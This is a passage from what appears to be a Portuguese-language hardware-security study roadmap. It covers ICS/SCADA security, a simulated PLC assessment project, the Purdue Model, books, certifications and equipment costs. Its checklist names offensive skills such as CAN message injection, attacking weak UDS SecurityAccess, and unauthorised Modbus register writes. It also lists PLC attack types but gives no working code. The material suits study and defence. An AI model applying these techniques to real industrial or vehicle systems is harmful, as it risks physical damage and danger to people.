- **SCADA (Supervisory Control and Data Acquisition)**: sistema que monitora e controla PLCs/RTUs remotamente
- **HMI (Human-Machine Interface)**: interface gráfica que operadores usam para monitorar a planta
- **Ataques a PLCs**: reprogramação maliciosa (como Stuxnet), manipulação de I/O, DoS, logic bomb
- **Defesas**: segmentação de rede (Purdue Model), firewalls industriais, monitoramento de anomalias, VPN para acesso remoto

#### Intuição
Hackear um PLC não é como hackear um servidor web — as consequências são **físicas**. Alterar a lógica de um PLC que controla uma caldeira industrial pode causar explosão. Modificar o PLC de um sistema de tratamento de água pode envenenar uma cidade (caso real: Oldsmar, Florida, 2021 — atacante aumentou dosagem de NaOH para níveis letais). A responsabilidade ética é enorme. Por isso, SEMPRE pratique em labs simulados e NUNCA em sistemas reais sem autorização explícita e escrita.

#### Projeto: "PLC Security Assessment"
1. **Use o ICSSIM** (simulador ICS em Docker):
   ```bash
   git clone https://github.com/4ndyZ/ICS-SimLab
   # Ou use o GRFICSv2 (virtual ICS com PLC Siemens simulado)
   git clone https://github.com/Fortiphyd/GRFICSv2
   ```
2. **Analise o tráfego** com Wireshark (filtros: `modbus`, `s7comm`, `dnp3`)
3. **Mapeie a arquitetura**: identifique PLCs, HMIs, historian servers, e redes
4. **Documente um plano de segurança** seguindo o Purdue Model (5 níveis de segmentação):
   - Nível 0: Processo físico (sensores, atuadores)
   - Nível 1: Controle básico (PLCs, RTUs)
   - Nível 2: Supervisão (SCADA, HMI)
   - Nível 3: Operações (Historian, MES)
   - Nível 3.5: DMZ industrial
   - Nível 4-5: Enterprise IT
5. **Entregável**: Análise de segurança de cenário ICS simulado + recomendações

#### Checkpoint — Fim da Fase F
- [ ] Consegue capturar e injetar mensagens CAN em lab virtual
- [ ] Entende UDS e sabe atacar SecurityAccess fraco
- [ ] Sabe explorar Modbus (ler/escrever registradores sem autorização)
- [ ] Entende o Purdue Model e sabe recomendar segmentação de rede ICS

---

## 📚 Recursos Complementares Avançados

### Livros Essenciais
| Livro | Foco | Nível |
|-------|------|-------|
| *The Hardware Hacking Handbook* (Jasper van Woudenberg, Colin O'Flynn) | ChipWhisperer, side-channel, fault injection | Intermediário-Avançado |
| *FPGA Prototyping by Verilog Examples* (Pong P. Chu) | Verilog prático para FPGAs | Intermediário |
| *High Speed Digital Design* (Howard Johnson) | Integridade de sinal | Avançado |
| *The Car Hacker's Handbook* (Craig Smith) | CAN bus, automotive | Intermediário |
| *Hacking the Xbox* (Andrew "bunnie" Huang) | Engenharia reversa de console | Iniciante-Intermediário |
| *Silicon Reverse Engineering* (diversos papers) | Decapping, gate-level RE | Avançado |

### Conferências e Talks Essenciais
- **Black Hat / DEF CON** — seção de hardware hacking (disponível no YouTube)
- **Hardwear.io** — conferência dedicada a segurança de hardware
- **Chaos Communication Congress (CCC)** — talks técnicos de altíssimo nível
- **REcon** — foco em engenharia reversa
- **CHES (Cryptographic Hardware and Embedded Systems)** — papers acadêmicos de side-channel

### Certificações Relevantes
| Certificação | Organização | Foco |
|-------------|-------------|------|
| GICSP | SANS/GIAC | Segurança ICS/SCADA |
| CSSA | CompTIA (futuro) | Segurança de Supply Chain |
| Embedded Security Training | Riscure | Side-channel, fault injection |
| ChipWhisperer Training | NewAE | Power analysis, glitching |

### Comunidades
- **Hardware Hacking Village** (DEF CON)
- **/r/ReverseEngineering** (Reddit)
- **/r/netsec** (Reddit)  
- **Hackaday** — projetos de hardware open-source
- **siliconpr0n.org** — die shots e RE de silício
- **OpenOCD** e **sigrok** — comunidades de ferramentas open-source

---

## 💰 Investimento em Hardware Avançado

> [!WARNING]
> Este roadmap avançado requer investimento significativamente maior que o básico. Priorize conforme seu foco.

| Item | Preço Estimado | Prioridade | Fase |
|------|---------------|------------|------|
| iCEstick (FPGA iCE40) | ~R$150 | ⭐⭐⭐ | A |
| ChipWhisperer-Lite (CW1173) | ~R$1.500 | ⭐⭐⭐ | A, E |
| Adaptador CAN-USB (CANtact/PCAN) | ~R$200 | ⭐⭐⭐ | F |
| Cynthion (USB MITM) | ~R$1.200 | ⭐⭐ | B |
| PCIe Screamer/EPIC Erebus | ~R$1.500 | ⭐⭐ | B |
| Arty A7 (FPGA Artix-7) | ~R$800 | ⭐⭐ | A |
| Microscópio metalúrgico usado | ~R$3.000 | ⭐ | C |
| Logic analyzer high-speed (Saleae Pro) | ~R$3.000 | ⭐ | B |

---

## 🆘 Se Você Travar (Avançado)

| Problema | Solução |
|----------|---------|
| "Verilog é muito confuso" | Pare e refaça lógica digital com portas AND/OR/NOT no papel. Depois volte ao Verilog. O problema é quase sempre conceitual, não sintático |
| "Não entendo os papers de side-channel" | Comece pela seção de Experimental Results (os gráficos). Depois leia Methodology. Por último, a matemática. Use IA para explicar equações específicas |
| "Não tenho FPGA" | Use EDA Playground (online, grátis) ou Icarus Verilog (simulação local). 80% do aprendizado é simulação |
| "CAN bus sem carro" | Use vcan (virtual CAN) + ICSim. Cobre 90% das técnicas |
| "Preciso de SEM/FIB" | Contate labs universitários. Muitas universidades brasileiras oferecem acesso para pesquisa. Enquanto isso, pratique com die shots online |
| "Não sei matemática suficiente" | Khan Academy para estatística e álgebra linear. 3Blue1Brown para intuição. A matemática necessária é acessível — não é PhD level |

---

> **Nota Final**: Este roadmap avançado foi projetado para ser completado em **4-8 meses** com dedicação de 2-3h por dia. As Fases A e B podem ser estudadas em paralelo. A Fase C é a mais dependente de recursos físicos (labs), mas a teoria pode ser estudada com die shots online. A Fase E é a mais matematicamente densa, mas a mais gratificante para quem gosta de resolver problemas. A Fase F é a mais diretamente aplicável ao mercado de trabalho.
>
> **Lembre-se**: o objetivo não é memorizar tudo — é construir a **capacidade de abordar qualquer problema de segurança de hardware**, mesmo que nunca tenha visto aquele chip/protocolo/ataque antes. Quando você conseguir olhar para um dispositivo desconhecido e pensar "sei por onde começar", você chegou ao Top 5%. Boa sorte e hack responsavelmente! 🔓🧬
